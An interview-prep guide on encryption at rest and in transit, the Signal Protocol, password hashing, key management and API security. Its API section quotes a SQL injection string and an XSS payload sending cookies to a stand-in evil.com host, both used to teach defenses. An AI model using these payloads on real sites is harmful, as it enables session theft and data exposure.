

# Encryption and Data Security -- Deep Dive

---

## Encryption at Rest

Protecting data stored on disk -- databases, file systems, backups, object storage.
If an attacker gains physical access to the disk or steals a backup, the data is unreadable
without the encryption key.

### AES-256

AES (Advanced Encryption Standard) with a 256-bit key is the standard for symmetric
encryption. "Symmetric" means the same key encrypts and decrypts.

```
Symmetric Encryption:

  Plaintext  ----[ AES-256 Encrypt (key) ]----> Ciphertext
  Ciphertext ----[ AES-256 Decrypt (key) ]----> Plaintext

  Same key for both operations.
  Key size: 256 bits (32 bytes)
  Block size: 128 bits (16 bytes)
  Mode: AES-GCM (provides both confidentiality AND integrity)
```

AES-GCM (Galois/Counter Mode) is the preferred mode because it provides authenticated
encryption -- the ciphertext includes a tag that detects any tampering. If an attacker
modifies even one bit of the ciphertext, decryption fails.

```python
from cryptography.hazmat.primitives.ciphers.aead import AESGCM
import os

# Generate a random 256-bit key
key = AESGCM.generate_key(bit_length=256)  # 32 bytes

# Encrypt
aesgcm = AESGCM(key)
nonce = os.urandom(12)  # 96-bit nonce (MUST be unique per encryption)
plaintext = b"sensitive data: SSN 123-45-6789"
associated_data = b"metadata that must not be tampered with"

ciphertext = aesgcm.encrypt(nonce, plaintext, associated_data)
# ciphertext includes the authentication tag (16 bytes appended)

# Decrypt
recovered = aesgcm.decrypt(nonce, ciphertext, associated_data)
assert recovered == plaintext

# If ciphertext is tampered with, decrypt raises InvalidTag
```

### Envelope Encryption

The problem: if you encrypt millions of records with the same key and that key is
compromised, ALL data is exposed. Envelope encryption solves this with a two-tier
key hierarchy.

```
Master Key (KEK - Key Encryption Key):
  - Stored in a KMS (AWS KMS, Google Cloud KMS, HashiCorp Vault)
  - NEVER leaves the KMS (used only to wrap/unwrap data keys)
  - Rotated periodically (but old versions kept to decrypt old data)

Data Key (DEK - Data Encryption Key):
  - Generated per object/record/partition
  - Used to encrypt the actual data (AES-256)
  - The encrypted (wrapped) data key is stored alongside the ciphertext
  - The plaintext data key is discarded after use (never stored)
```

### Envelope Encryption Flow



Why this is better than a single key:

1. **Blast radius**: each object has its own data key. Compromising one data key exposes
   one object, not everything
2. **Performance**: data is encrypted locally with the fast DEK. Only key wrapping/unwrapping
   goes to the KMS (small, fast operations)
3. **Key rotation**: rotate the master key by re-wrapping the encrypted DEKs. You do NOT
   need to re-encrypt all the data
4. **Access control**: the KMS controls who can use the master key. Revoking access to
   the master key immediately blocks decryption of all data keys

### Key Management Services

| Service | Provider | Key Features |
|---|---|---|
| **AWS KMS** | AWS | HSM-backed, per-region, automatic rotation, IAM integration |
| **Google Cloud KMS** | GCP | HSM or software-backed, global or regional, EKM for external keys |
| **Azure Key Vault** | Azure | HSM or software-backed, RBAC, certificate management |
| **HashiCorp Vault** | Open source / Enterprise | Secrets management, dynamic secrets, PKI, transit engine |

### Transparent Data Encryption (TDE)

Databases like PostgreSQL, MySQL, and SQL Server offer built-in encryption at rest.
The database engine encrypts data before writing to disk and decrypts on read. The
application does not need to change -- encryption is transparent.

```
Application --> SQL Query --> Database Engine --> [ TDE: Encrypt ] --> Disk
Application <-- Results  <-- Database Engine <-- [ TDE: Decrypt ] <-- Disk
```

Limitation: TDE protects against disk theft but NOT against a compromised database server.
If an attacker has database credentials, they see decrypted data. For defense-in-depth,
combine TDE with application-level encryption for the most sensitive fields.

---

## Encryption in Transit

Protecting data as it moves between systems.

### TLS 1.3

All client-to-server communication should use TLS 1.3 (HTTPS). For a detailed breakdown
of the TLS 1.3 handshake, cipher suites, and certificate chain of trust, see:
`01-foundations/03-networking-basics/tls-and-security.md`

Key points:
- 1-RTT handshake (0-RTT for resumption)
- Only strong cipher suites (AES-GCM, ChaCha20-Poly1305)
- Forward secrecy via ephemeral Diffie-Hellman

### mTLS (Mutual TLS)

Standard TLS: only the server presents a certificate (client verifies the server).
Mutual TLS: BOTH sides present certificates and verify each other.

For a detailed breakdown of mTLS in service mesh architectures, see:
`02-core-system-design/01-distributed-systems/fundamentals.md`

```
Standard TLS:
  Client ----> verifies server cert ----> Server
  (Client is anonymous from TLS perspective)

mTLS:
  Client <---> mutual verification <---> Server
  Both sides prove their identity with certificates
  Used for: service-to-service communication in Zero Trust architectures
```

---

## End-to-End Encryption (E2EE)

In E2EE, only the sender and the intended recipient can read the messages. The server
that relays the messages cannot decrypt them, even if compelled by law enforcement or
compromised by an attacker.

### The Problem E2EE Solves

```
Without E2EE (server-mediated encryption):
  Alice --[TLS]--> Server (can read plaintext!) --[TLS]--> Bob
  The server sees every message. A breach, subpoena, or rogue employee
  exposes all communications.

With E2EE:
  Alice --[E2EE ciphertext]--> Server (sees only ciphertext) --[E2EE ciphertext]--> Bob
  Only Alice and Bob hold the decryption keys.
  Server cannot read messages even if it wants to.
```

### Signal Protocol

The Signal Protocol is the gold standard for E2EE messaging. It is used by Signal,
WhatsApp (2+ billion users), Facebook Messenger, and Google Messages.

It combines two cryptographic protocols:

**X3DH (Extended Triple Diffie-Hellman) -- Key Agreement**

Establishes a shared secret between two parties, even if one is offline.

```
Setup (each user publishes keys to the server):
  - Identity Key (IK): long-term, identifies the user
  - Signed Pre-Key (SPK): medium-term, rotated periodically
  - One-Time Pre-Keys (OPK): single-use, uploaded in batches

Alice wants to message Bob (who is offline):
  1. Alice downloads Bob's IK, SPK, and one OPK from the server
  2. Alice generates an ephemeral key pair (EK)
  3. Alice computes 3 (or 4) DH exchanges:
     DH1 = DH(Alice_IK, Bob_SPK)       -- mutual authentication
     DH2 = DH(Alice_EK, Bob_IK)        -- forward secrecy
     DH3 = DH(Alice_EK, Bob_SPK)       -- forward secrecy
     DH4 = DH(Alice_EK, Bob_OPK)       -- if OPK available
  4. Shared secret = KDF(DH1 || DH2 || DH3 || DH4)
  5. Alice uses shared secret to encrypt the first message
  6. Alice sends: {Alice_IK, Alice_EK, Bob_OPK_id, encrypted_message}

Bob comes online:
  7. Bob computes the same 3-4 DH exchanges (using his private keys)
  8. Bob derives the same shared secret
  9. Bob decrypts Alice's message
```

**Double Ratchet -- Ongoing Message Encryption**

After the initial key agreement, the Double Ratchet provides forward secrecy and
break-in recovery for every subsequent message.

```
Two ratchets interleaved:

1. DH Ratchet (asymmetric):
   - Each party periodically generates new DH key pairs
   - New DH exchange creates new root key material
   - Provides break-in recovery: if an attacker compromises current keys,
     future messages are safe once the DH ratchet advances

2. Symmetric Ratchet (hash chain):
   - Derives a new message key for each message
   - message_key_n = KDF(chain_key_n)
   - chain_key_{n+1} = KDF(chain_key_n)
   - Old chain keys are deleted -- provides forward secrecy
   - Past messages cannot be decrypted even if current keys are compromised

Combined:
  DH ratchet step produces new chain key
  --> symmetric ratchet produces message keys from chain key
  --> each message encrypted with a unique key
  --> used keys are immediately deleted
```

### Where E2EE Is Used

| Service | Protocol | Notes |
|---|---|---|
| **Signal** | Signal Protocol | Open source, gold standard |
| **WhatsApp** | Signal Protocol | 2+ billion users, E2EE by default |
| **iMessage** | Custom (similar ideas) | Apple ecosystem only |
| **Telegram** | MTProto | E2EE only in "secret chats" (not default!) |
| **Matrix/Element** | Olm/Megolm (Signal-inspired) | Open standard, federated |
| **Zoom** | Custom | E2EE for meetings (opt-in) |

### E2EE Trade-offs

- **Server-side features are limited**: server cannot index, search, or moderate E2EE content
- **Key management burden on client**: if a user loses their device and has no backup of
  their keys, their message history is permanently lost
- **Multi-device is hard**: each device needs its own key pair and must be part of the
  ratchet state. Signal uses "sender keys" for groups to manage this complexity.
- **Abuse prevention**: platforms cannot scan for CSAM, spam, or malicious links in E2EE
  messages (ongoing policy debate)

---

## Password Security

Passwords remain the primary authentication mechanism. Getting password storage wrong
is one of the most common and damaging security failures.

### The Golden Rule: NEVER Store Plaintext Passwords

```
WRONG (every breach ever):
  database: {email: "alice@example.com", password: "hunter2"}
  Attacker gets database dump --> all passwords exposed instantly

WRONG (unsalted hash):
  database: {email: "alice@example.com", password_hash: "sha256:f52fbd..."}
  Attacker uses rainbow table (precomputed hashes) --> most passwords cracked in seconds

RIGHT (salted slow hash):
  database: {email: "alice@example.com",
             password_hash: "$2b$12$LJ3m4ys/abc...xyz"}  -- bcrypt with salt
  Attacker must brute-force each password individually, each attempt takes ~250ms
  Cracking a single strong password takes centuries
```

### Password Hashing Algorithms

| Algorithm | Type | Memory | Speed | Recommendation |
|---|---|---|---|---|
| **MD5/SHA-1/SHA-256** | Fast hash | None | ~1 billion/sec on GPU | NEVER use for passwords |
| **bcrypt** | CPU-hard | 4KB | ~4 hashes/sec (cost=12) | Good, widely supported |
| **scrypt** | Memory-hard | Configurable (MB) | Configurable | Good for anti-GPU |
| **Argon2id** | Memory-hard + CPU-hard | Configurable (MB-GB) | Configurable | Best (PHC winner) |

**Why "slow" is good**: a fast hash lets attackers try billions of passwords per second.
A slow hash (bcrypt at cost 12 takes ~250ms) limits attackers to ~4 attempts per second
per CPU core, making brute-force attacks infeasible.

### Salting

A salt is a unique random value generated for each password. It is stored alongside the
hash (not secret).

```
Without salt:
  alice's password: "hunter2" --> SHA256 --> "f52fbd32b2b3b..."
  bob's password:   "hunter2" --> SHA256 --> "f52fbd32b2b3b..."  (SAME hash!)
  Attacker with a rainbow table cracks BOTH instantly.

With salt:
  alice's salt: "x7k9m2"
  alice's hash: bcrypt("x7k9m2" + "hunter2") --> "$2b$12$x7k9m2...abc"

  bob's salt: "p3q8r1"
  bob's hash:  bcrypt("p3q8r1" + "hunter2") --> "$2b$12$p3q8r1...def"

  Different hashes even for the same password!
  Rainbow tables are useless (would need a table per possible salt).
  Attacker must brute-force each user individually.
```

bcrypt, scrypt, and Argon2 all generate and embed the salt automatically. You do not
need to manage salts separately.

### Peppering

A pepper is an application-level secret that is added before hashing. Unlike a salt,
the pepper is NOT stored in the database -- it is stored in application configuration
or an environment variable.

```
hash = bcrypt(pepper + salt + password)

The pepper adds a layer of defense:
  - If the database is stolen but the application server is not, the attacker
    cannot crack passwords (they do not have the pepper)
  - If the application server is compromised but the database is not, passwords
    are still hashed
  - Both must be compromised to attempt cracking
```

### Code Example: Password Hashing

```python
import bcrypt
import argon2  # argon2-cffi library

# === bcrypt ===
def hash_password_bcrypt(password: str) -> str:
    """Hash a password with bcrypt. Salt is generated automatically."""
    salt = bcrypt.gensalt(rounds=12)  # cost factor = 12 (~250ms per hash)
    hashed = bcrypt.hashpw(password.encode('utf-8'), salt)
    return hashed.decode('utf-8')

def verify_password_bcrypt(password: str, hashed: str) -> bool:
    """Verify a password against a bcrypt hash."""
    return bcrypt.checkpw(
        password.encode('utf-8'),
        hashed.encode('utf-8')
    )

# Usage
stored_hash = hash_password_bcrypt("hunter2")
# stored_hash = "$2b$12$LJ3m4ys3Gqzpm5Yjl6gOYe8Zf3xVZq1n7x5xw7Z..."

assert verify_password_bcrypt("hunter2", stored_hash) == True
assert verify_password_bcrypt("wrong",   stored_hash) == False


# === Argon2id (recommended) ===
hasher = argon2.PasswordHasher(
    time_cost=3,       # Number of iterations
    memory_cost=65536,  # 64MB of memory
    parallelism=4,      # 4 parallel threads
    hash_len=32,        # 256-bit hash output
    type=argon2.Type.ID # Argon2id (hybrid: side-channel resistant + memory-hard)
)

def hash_password_argon2(password: str) -> str:
    return hasher.hash(password)

def verify_password_argon2(password: str, hashed: str) -> bool:
    try:
        return hasher.verify(hashed, password)
    except argon2.exceptions.VerifyMismatchError:
        return False

# Usage
stored_hash = hash_password_argon2("hunter2")
# stored_hash = "$argon2id$v=19$m=65536,t=3,p=4$c29tZXNhbHQ$..."
assert verify_password_argon2("hunter2", stored_hash) == True
```

---

## Key Management

Encryption is only as strong as the key management. If keys are poorly managed, encryption
is security theater.

### Key Rotation

Regularly rotating encryption keys limits the blast radius of a key compromise.

```
Key Rotation Strategy:

  1. Generate new key (version N+1)
  2. New writes use key version N+1
  3. Old reads still work with key version N (both versions active)
  4. Background job re-encrypts old data with key N+1 (optional but recommended)
  5. After all data is re-encrypted, retire key version N

  With envelope encryption, "rotation" means:
  - Generate new master key (KEK v2)
  - Re-wrap all encrypted DEKs with KEK v2
  - No need to re-encrypt the actual data (DEKs unchanged)
  - Much faster than re-encrypting terabytes of data
```

### Rotation Cadence

| Key Type | Rotation Frequency | Reason |
|---|---|---|
| Master keys (KEK) | 90 days to 1 year | Limit exposure window |
| Data keys (DEK) | Per-object or per-session | Limit blast radius |
| TLS certificates | 90 days (Let's Encrypt) to 1 year | Certificate expiry, compliance |
| API keys | 90 days | Employee turnover, potential leaks |
| Signing keys (JWT) | 30-90 days | Token forgery risk |

### HSM (Hardware Security Module)

An HSM is a tamper-resistant hardware device that generates, stores, and manages
cryptographic keys. The key NEVER leaves the HSM -- all cryptographic operations
happen inside the device.

```
Without HSM:
  Application server has encryption key in memory
  If server is compromised, key is stolen
  Key exists in: RAM, config files, environment variables, backups

With HSM:
  Key is generated inside HSM and never leaves
  Application sends "encrypt this data" to HSM
  HSM performs encryption internally, returns ciphertext
  If server is compromised, attacker cannot extract the key

  Physical tamper protection: if someone opens the HSM, keys are wiped
```

| HSM Option | Type | Use Case |
|---|---|---|
| **AWS CloudHSM** | Cloud-based dedicated HSM | Regulatory compliance (FIPS 140-2 Level 3) |
| **Azure Dedicated HSM** | Cloud-based dedicated HSM | Same |
| **YubiHSM** | USB device ($650) | Small teams, development |
| **Thales Luna** | On-premises rack HSM | Enterprise, banking |

### HashiCorp Vault

Vault is the Swiss Army knife of secrets management. It handles far more than encryption keys.

```
Vault capabilities:

  1. Secrets Engine (static secrets):
     vault kv put secret/db-prod username=admin password=s3cret
     vault kv get secret/db-prod
     # Secrets are encrypted at rest, access-controlled, audit-logged

  2. Dynamic Secrets:
     # Vault generates short-lived database credentials on demand
     vault read database/creds/readonly
     # Returns: {username: "v-token-readonly-abc123", password: "...", ttl: "1h"}
     # Credentials auto-expire after 1 hour. No long-lived passwords!

  3. Transit Engine (encryption as a service):
     # Application sends plaintext, Vault encrypts and returns ciphertext
     # Key never leaves Vault
     vault write transit/encrypt/my-key plaintext=$(base64 <<< "sensitive data")
     # Returns: {ciphertext: "vault:v1:abc123..."}

  4. PKI Engine (certificate authority):
     # Vault acts as a CA, issues short-lived TLS certificates
     vault write pki/issue/web-server common_name="api.example.com" ttl="24h"
     # Returns: {certificate: "-----BEGIN CERT...", private_key: "..."}

  5. Auth Methods:
     - AppRole (machine authentication)
     - Kubernetes (pod identity)
     - AWS IAM (instance identity)
     - OIDC (human users via SSO)
```

---

## Data Security Techniques

### Data Masking

Showing only a portion of sensitive data. Used in UIs, logs, and support tools.

```
Credit card:  **** **** **** 4242
SSN:          ***-**-6789
Email:        a****@example.com
Phone:        (***) ***-1234
```

```python
def mask_credit_card(card_number: str) -> str:
    """Show only last 4 digits."""
    clean = card_number.replace(" ", "").replace("-", "")
    return f"**** **** **** {clean[-4:]}"

def mask_email(email: str) -> str:
    """Show first letter and domain."""
    local, domain = email.split("@")
    return f"{local[0]}{'*' * (len(local) - 1)}@{domain}"

# Dynamic masking based on role
def get_customer_data(customer_id, requesting_user):
    customer = db.get(customer_id)
    if requesting_user.role == "support":
        customer.ssn = mask_ssn(customer.ssn)           # Support sees masked SSN
        customer.credit_card = mask_credit_card(customer.credit_card)
    elif requesting_user.role == "viewer":
        customer.ssn = "***-**-****"                    # Viewer sees nothing
        customer.credit_card = "****"
    # admin role sees full data (with audit logging)
    return customer
```

### Tokenization

Replacing sensitive data with a non-sensitive substitute (token) that maps back to the
original data through a secure token vault. Unlike encryption, the token has no mathematical
relationship to the original data.

```
Encryption:
  "4111-1111-1111-1111" --> "aX7f9kL2mN..." (ciphertext, mathematically derived)
  Reversible with the key

Tokenization:
  "4111-1111-1111-1111" --> "tok_8a7b3c9d" (random token, no mathematical relationship)
  Mapping stored in a secure token vault

Why tokenization for payment cards:
  - The token is useless without the vault
  - Your application database never touches real card numbers
  - Reduces PCI-DSS scope (only the token vault is in scope, not your entire system)
  - Tokens can preserve format (same length, last 4 digits) for compatibility
```

### PII Handling and Compliance

| Regulation | Scope | Key Requirements |
|---|---|---|
| **GDPR** | EU residents' personal data | Right to erasure, consent, data minimization, breach notification (72h), DPO required |
| **HIPAA** | US healthcare data (PHI) | Encryption required, access controls, audit logs, business associate agreements |
| **PCI-DSS** | Payment card data | Network segmentation, encryption, access control, vulnerability scanning, penetration testing |
| **SOC 2** | Service organizations | Trust principles: security, availability, processing integrity, confidentiality, privacy |
| **CCPA** | California residents | Right to know, right to delete, right to opt-out of sale |

```
PII handling best practices:

  1. Data minimization: collect only what you need
  2. Purpose limitation: use data only for stated purpose
  3. Encryption at rest and in transit
  4. Access controls: least privilege, audit logging
  5. Data retention policy: delete when no longer needed
  6. Pseudonymization: replace identifiers with pseudonyms where possible
  7. Right to erasure: ability to delete all data for a user (GDPR Article 17)
  8. Breach notification: process to detect and report breaches
```

---

## API Security

### Common Vulnerabilities

**SQL Injection**

```python
# VULNERABLE -- user input directly in SQL
query = f"SELECT * FROM users WHERE email = '{user_input}'"
# Attacker input: ' OR '1'='1' --
# Resulting query: SELECT * FROM users WHERE email = '' OR '1'='1' --'
# Returns ALL users!

# SAFE -- parameterized query
cursor.execute("SELECT * FROM users WHERE email = %s", (user_input,))
# The database driver escapes the input. Injection impossible.
```

**Cross-Site Scripting (XSS)**

```html
<!-- VULNERABLE: rendering user input as HTML -->
<div>Welcome, {{ user.name }}</div>
<!-- If user.name = "<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>" -->
<!-- The script executes in every visitor's browser! -->

<!-- SAFE: escape HTML entities -->
<div>Welcome, {{ user.name | escape }}</div>
<!-- Renders as: <script>... (harmless text) -->
```

**Cross-Site Request Forgery (CSRF)**

```
Attack scenario:
  1. User is logged into bank.com (has session cookie)
  2. User visits evil.com
  3. evil.com contains: 
  4. Browser sends the request WITH the bank.com cookie (automatic!)
  5. Bank processes the transfer (valid session, valid request)

Defenses:
  - CSRF token: hidden form field with a random token that evil.com cannot guess
  - SameSite cookie attribute: browser does not send cookie on cross-origin requests
  - Require re-authentication for sensitive operations
```

### API Security Checklist

```
Authentication:
  [ ] Use OAuth 2.0 / OIDC (not custom auth)
  [ ] Require API keys for machine clients
  [ ] Enforce MFA for administrative APIs

Input Validation:
  [ ] Validate all input (type, length, range, format)
  [ ] Use parameterized queries (never string interpolation for SQL)
  [ ] Sanitize HTML output (prevent XSS)
  [ ] Validate Content-Type headers

Transport:
  [ ] HTTPS only (redirect HTTP to HTTPS)
  [ ] HSTS header (force HTTPS for future requests)
  [ ] TLS 1.2+ (prefer 1.3)

Rate Limiting:
  [ ] Per-IP rate limiting (prevent brute force)
  [ ] Per-user rate limiting (prevent abuse)
  [ ] Return 429 Too Many Requests with Retry-After header

CORS (Cross-Origin Resource Sharing):
  [ ] Whitelist specific allowed origins (never Access-Control-Allow-Origin: *)
  [ ] Limit allowed methods and headers
  [ ] Set appropriate max-age for preflight caching

Headers:
  [ ] X-Content-Type-Options: nosniff
  [ ] X-Frame-Options: DENY (prevent clickjacking)
  [ ] Content-Security-Policy (restrict resource loading)
  [ ] Strict-Transport-Security (HSTS)
  [ ] X-XSS-Protection: 0 (deprecated, rely on CSP instead)
```

### OWASP Top 10 (2021) -- Brief Overview

| Rank | Category | What It Is | Defense |
|---|---|---|---|
| A01 | Broken Access Control | Users accessing resources they should not | AuthZ checks on every request, deny by default |
| A02 | Cryptographic Failures | Weak encryption, plaintext storage, exposed keys | AES-256, TLS, proper key management |
| A03 | Injection | SQL injection, command injection, LDAP injection | Parameterized queries, input validation |
| A04 | Insecure Design | Architecture-level flaws, missing threat modeling | Threat modeling, secure design patterns |
| A05 | Security Misconfiguration | Default credentials, open cloud buckets, verbose errors | Hardening checklists, infrastructure as code |
| A06 | Vulnerable Components | Using libraries with known CVEs | Dependency scanning (Dependabot, Snyk) |
| A07 | Auth Failures | Weak passwords, missing MFA, broken session management | Strong password policy, MFA, secure session handling |
| A08 | Software/Data Integrity | Untrusted deserialization, unsigned updates | Signature verification, SRI, CI/CD integrity |
| A09 | Logging Failures | Missing audit logs, no alerting on breaches | Centralized logging, SIEM, alerting |
| A10 | SSRF | Server tricked into making requests to internal resources | Input validation, network segmentation, allowlists |

---

## Interview Questions and Answers

### Q1: "How would you encrypt data at rest in a distributed system?"

**Answer:**

Use envelope encryption. Each data object gets its own randomly generated Data Encryption Key
(DEK). The DEK encrypts the data using AES-256-GCM. A master Key Encryption Key (KEK) stored
in a KMS (AWS KMS, Vault) encrypts the DEK. Store the encrypted DEK alongside the encrypted
data.

Benefits: each object has a unique key (limits blast radius), key rotation only re-wraps DEKs
(fast), the master key never leaves the KMS (secure), and actual encryption is fast (local
AES-256).

For databases, combine this with Transparent Data Encryption (TDE) for the base layer, and
application-level field encryption for highly sensitive columns (SSN, payment data).

### Q2: "How would you store passwords securely?"

**Answer:**

1. Hash with Argon2id (winner of the Password Hashing Competition), configured for ~250ms
   per hash (time_cost=3, memory_cost=64MB, parallelism=4)
2. Salt is generated automatically by Argon2 (unique per password)
3. Optionally add a pepper (application-level secret, stored outside the database)
4. Enforce password complexity requirements at the API level
5. Implement rate limiting on login endpoints (prevent brute force)
6. Support MFA as a second factor

Never use MD5, SHA-1, or SHA-256 for password hashing -- they are too fast (billions of
hashes per second on a GPU).

### Q3: "Explain end-to-end encryption."

**Answer:**

E2EE ensures only the sender and intended recipient can read messages. The server relays
ciphertext it cannot decrypt. The Signal Protocol (used by WhatsApp) uses:

1. X3DH for initial key agreement (works even if recipient is offline)
2. Double Ratchet for ongoing messages (new key per message, forward secrecy)

Trade-offs: server cannot provide search, content moderation, or spam filtering on encrypted
content. Multi-device sync is complex. Key loss means message history loss.

### Q4: "What is the difference between encryption, hashing, and encoding?"

**Answer:**

```
Encoding (e.g., Base64, URL encoding):
  - Transforms data format for transport/storage
  - NOT a security mechanism
  - Reversible by anyone (no key needed)
  - Use case: embed binary data in JSON, URL-safe strings

Hashing (e.g., SHA-256, bcrypt):
  - One-way function: input --> fixed-size output
  - NOT reversible (cannot recover input from hash)
  - Same input always produces same output (deterministic)
  - Use case: password storage, data integrity verification

Encryption (e.g., AES-256, RSA):
  - Two-way function: plaintext <--> ciphertext
  - Reversible WITH the correct key
  - Use case: protecting data confidentiality
```

### Q5: "How would you secure communication between microservices?"

**Answer:**

1. **mTLS** (Mutual TLS): both services present certificates, proving identity to each other.
   Use a service mesh (Istio, Linkerd) to manage certificates automatically.
2. **Service identity**: each service has a cryptographic identity (SPIFFE ID), not just a
   network address. Authorization decisions based on identity, not IP.
3. **Authorization policies**: enforce which services can call which endpoints.
   Define policies in the service mesh (Istio AuthorizationPolicy).
4. **Network segmentation**: services only have network access to their direct dependencies.
5. **Secrets management**: use Vault with dynamic credentials. No long-lived passwords or
   API keys in environment variables.
6. **Audit logging**: log all service-to-service calls with identity information.

### Q6: "A system you designed stores credit card numbers. How do you handle this?"

**Answer:**

Do not store credit card numbers at all if possible. Use a payment processor (Stripe, Adyen)
that handles card storage and returns a token. Your system stores only the token.

If you must store card data (you are the payment processor):
1. Tokenization: store tokens in your main database, actual card numbers in an isolated
   token vault with strict access controls
2. Envelope encryption for the card data at rest
3. Network segmentation: the token vault is on an isolated network segment
4. HSM for key storage
5. PCI-DSS Level 1 compliance (quarterly vulnerability scans, annual penetration testing,
   annual on-site audit by a QSA)
6. Field-level encryption: encrypt the PAN (Primary Account Number) at the application
   level before it reaches the database
7. Masking: all UIs and logs show only the last 4 digits
8. Access logging: every access to card data is logged with who, when, why
